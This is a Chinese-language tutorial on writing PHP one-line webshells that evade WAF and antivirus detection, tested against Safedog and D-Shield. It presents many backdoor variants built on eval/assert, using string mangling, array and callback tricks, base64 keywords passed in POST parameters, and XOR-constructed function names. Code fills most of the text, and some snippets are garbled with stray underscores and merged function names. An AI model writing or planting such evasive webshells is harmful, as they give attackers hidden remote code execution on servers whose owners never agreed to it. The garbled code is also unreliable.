










## 前⾔


webshell免杀已经是⼀个⽼⽣⻓谈的话题了，现在的各种waf都已经可以识别常⻅webshell及其各种变形，也出现了基于沙箱技术和机器学习的waf。webshell的免杀⼀直在⼀个对抗的过沉中，今天新出的⼀个免杀webshell，可能明天就加⼊了waf的规则库中，所以我们需要尽可能多的掌握webshell免杀技巧并且⾃⼰去写⼀些webshell。能够免杀的webshell尽可能的⼩范围使⽤，⼤量使⽤必然会被waf识别并加⼊查杀规则库。


## 前期准备


本次测试过程中使⽤了常⻅的两个免费waf：安全狗和D盾。综合测试的结果是D盾的免杀能⼒更强，所以能过D盾webshell基本都可以过安全狗。webshell即使可以逃过D盾的查杀，也⽆法进⾏系统的命令执⾏，因为D盾还有⼀层防⽕墙。如何绕过D盾防⽕墙和360等杀毒软件还需继续学习。


## webshell原理


根据功能的差别可以将webshell分为⼀句话⽊⻢，⼩⻢和⼤⻢。对于这些⻢的查杀原理基本是⼀样的，只不过代码  越多暴露的特性就会越多，⾃然就越容易被查杀。本次研究⼀句话⽊⻢的免杀，重点介绍⼀句话⽊⻢的原理。 ⼀句话⽊⻢是最简单的webshell，它的实现也相当容易，最简单的⼀句话⽊⻢如下：


```php
_@eval($REQUEST['x']);_

```


或者：


```php
_assert($REQUEST['x']);_

```


`assert`可以换成`system`等可以执⾏系统命令的PHP函数。


毫⽆疑问，这中简单原始的webshell肯定会被免杀：








## eval和assert


关于eval函数


> eval 是⼀个语⾔构造器⽽不是⼀个函数，不能被 可变函数 调⽤ 可变函数：通过⼀个变量，获取其对应的变量值，然后通过给该值增加⼀个括号()，让系统认为该值是⼀个函数，从⽽当做函数来执⾏


`通俗的说⽐如你<?php` $a=eval;$a()?>`这样是不⾏的.也造就了⽤`eval`的话达不到`assert`的灵活，但是在php7.1以上``assert已经不能使用了。`


关于assert函数


> assert()回调函数在构建⾃动测试套件的时候尤其有⽤，因为它们允许你简易地捕获传⼊断⾔的代码，并包含断⾔的位置信息。 当信息能够被其他⽅法捕获，使⽤断⾔可以让它更快更⽅便！


## 免杀⽅法


### 函数替换


`例如将`$_POST`替换为`$_`REQUEST`_





虽然D盾还是检测出来为后⻔，但是级别已经降低了为4级，可⻅D盾对`POST`更为敏感，这⾥显然不能免杀，但是可以作为⼀种思路来配合后续的其它⽅法免杀。


### 字符串变形


php造作字符串的函数有：


```php
_ucwords() //函数把字符串中每个单词的⾸字符转换为⼤写。
ucfirst() //函数把字符串中的⾸字符转换为⼤写。
trim() //函数从字符串的两端删除空⽩字符和其他预定义字符。
substrreplace() //函数把字符串的⼀部分替换为另⼀个字符串
substr() //函数返回字符串的⼀部分。
strtr() //函数转换字符串中特定的字符。
strtoupper() //函数把字符串转换为⼤写。
strtolower() //函数把字符串转换为⼩写。
strtok() //函数把字符串分割为更⼩的字符串
strrot13() //函数对字符串执⾏ ROT13 编码。_


```


通过字符串函数对关键字`assert`和_`$POST`_进⾏变形，如：


```php
_<?php
$a = substrreplace("assexx","rt",4);_
$a($_POST['x']);
?>_

```





D盾检测出为1级，其实1级D盾就不会拦截，可以达到免杀效果：





经过测试，D盾只要遇到这种疑似变量就会报危险，如下图，即使这个变量是⼀个⽆害的字符串，所以在这个问题 上⽆需深究。





### ⾃定义函数绕过


```php
_<?php
function sys(){ return 'al($';
}
@eval('@ev'.sys().'POST[x]);');
?>_

```


### 利⽤数组免杀


```php
_<?php
$a = substrreplace("assexx","rt",4);_
$b=[''=>$_a($POST['x'])];
?>_

```





还可以给数组加点料：


```php
_<?php
$a = substrreplace("assexx","rt",4);_
$c = $_REQUEST['e'];
if ($c="test"){_
$b=[$c=>$a($_POST['x'])];
}_

```





除此外还可以使⽤多维数组：


```php
_<?php
$b = substrreplace("assexx","rt",4);_
$a = array($arrayName = array('a' => $b($_POST['x'])));
?>_

```


### 利⽤回调函数免杀


常⽤的php回调函数有：


```php
call_user__funcarray()
call__user_func()
array_filter() array__walk()
arraymap()
registregister__shutdown_function()
register_tick__function()
filtervar()
filter__var__array()
uasort()
uksort()
arrayreduce()
arraywalk()
array__walk_recursive()

```


> 注意常⽤的回调函数⼤部分都已经加⼊了免杀套餐，所以我们需要尽可能的去寻找⽐较⽣僻的回调函数。


例如：


```php
<?php
array_intersect__ukey(array($POST["x"] => 1), array(1), "assert");
?>_

```





### 回调函数配合⽅法或类


例如回调函数配合⽅法：


```php
<?php
function test($a){
array_intersect__ukey(array($a => 1), array(1), "assert");
}
test($POST["x"]);
?>_

```


### 使⽤特殊字符


特殊字符有：`\n`,`\r`,`\t`等。


```php
<?php
$a = $_POST['x'];_
$b = "\n"; function a($_ss){
$d=substrreplace("assexx","rt",4); 
return_ $d($ss);
}
a($b.=$a);
?>

```


经测试特殊字符的免杀性不强，勉强可以使⽤。


### 利⽤POST包获取关键字


```php
<?php
$decrpt = $_POST['x'];_
$decrps = $_POST['y'];_
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
$arrt = explode("|", $decrps)[1];
$arrt = explode("|", base64_decode($arrt)); call_user_func($arrs[0],$arrt[0]);
?>

```





也可以使⽤⾃定义的加密⽅式，post包传⼊参数再由webshell解密，此种⽅式现有的waf查杀能⼒基本为0.


### ⽆字符特征⻢


利⽤异或或者编码等⽅式构造⽆字符的webshell，例如：


```php
<?php
$___=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';_
$_='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $_='_POST';
$__=$$__;
$$___($_[_]); // assert($_POST[_]);
?>

```


### 异或绕过


github上有个项⽬可以使⽤python⽣成异或免杀的webshell，不过其特征已被捕获，现在已经⽆法过D盾了。[github地址](https://github.com/yzddmr6/webshell-venom)
不过可以使⽤下⾯这篇⽂章的思路来进⾏修改重新免杀：[随机异或⽆限免杀D盾之再免杀](https://www.anquanke.com/post/id/193042)


举个例⼦：


```php
<?php
function v01cano($aaa,$sss, $bbb){
$ccc=$bbb;
array_intersect_ukey($aaa, $_sss, $ccc);
}
$0='&'^"\x47";
$1='C'^"\x30";
$2='A'^"\x32";
$3='v'^"\x13";
$4='J'^"\x38";
$5='f'^"\x12";_
$ddd=$_0._$_1.$_2._$_3.$_4._$_5; v01cano(array($_POST['x'] => 1),array(1), $ddd);_

```


或者：


```php
<?php
@$_++; // $ _= 1_
$_=("#"^"|"); // $_=_ 
$_.=("."^"~"); //_ P
$_`.=("/"^""); //`_ PO
$_.=("|"^"/"); //_ POS
$_.=("{"^"/"); //_ POST
@eval(${$ _}[!$]);//mima:0_

```


## PHP7.1之后免杀困境


php7.1之后我们已经不能使⽤强⼤的`assert`函数了,waf只要把函数封死就可以有效的阻⽌webshell免杀,⽽`eval`并没有`assert`那么灵活。后期⼤家可能更加倾向使⽤⼤⻢。


## 参考⽂章

- [Webshell⼯作原理与免杀学习](https://www.addon.pub/2018/06/11/Webshell%E5%B7%A5%E4%BD%9C%E5%8E%9F%E7%90%86%E4%B8%8E%E5%85%8D%E6%9D%80/)
- [对于php免杀webshell的⼀些总结](https://xz.aliyun.com/t/5152)
- [随机异或⽆限免杀D盾之再免杀](https://www.anquanke.com/post/id/193042)
- [基于php⼀句话⽊⻢的变种总结](https://blog.csdn.net/Alexz/article/details/102488644)
